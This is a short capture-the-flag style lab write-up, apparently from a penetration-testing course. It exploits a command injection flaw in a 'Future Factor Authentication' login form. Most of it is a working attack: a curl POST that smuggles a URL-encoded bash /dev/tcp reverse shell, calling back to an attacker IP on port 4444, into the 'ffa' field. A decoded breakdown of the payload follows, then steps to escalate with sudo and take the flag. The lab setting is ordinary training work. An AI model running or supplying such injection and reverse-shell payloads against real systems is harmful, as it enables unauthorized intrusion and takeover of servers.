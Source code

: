 Capstone Lab: Future Factor Authentication Exploit
Objective

Identify and exploit a command injection vulnerability in the Future Factor Authentication application on VM #3 to gain a reverse shell, escalate privileges, and retrieve the flag from the /root/ directory.
Exploit Command

bash

curl -X POST --data 'username=&password=&ffa=%24%28bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.172%2F4444%200%3E%261%27%29' http://192.168.156.16/login

Command Breakdown

    curl -X POST: Sends a POST request to the server.
    --data 'username=&password=&ffa=...': Injects the malicious payload into the ffa field.
    Payload (URL-Decoded):

    bash

    $(bash -c 'bash -i >& /dev/tcp/192.168.45.172/4444 0>&1')

        bash -c: Executes the command in a new Bash shell.
        bash -i >& /dev/tcp/...: Initiates a reverse shell connection to the attacker's machine.

Summary

This command exploits the ffa field to trigger a reverse shell on the target server. The server connects back to the attacker's machine on port 4444, providing an interactive shell.
Steps to Complete

    Run the Exploit: Execute the above curl command.
    Gain Root Access: Use sudo su in the reverse shell.
    Retrieve the Flag: Navigate to /root/ and find the flag.
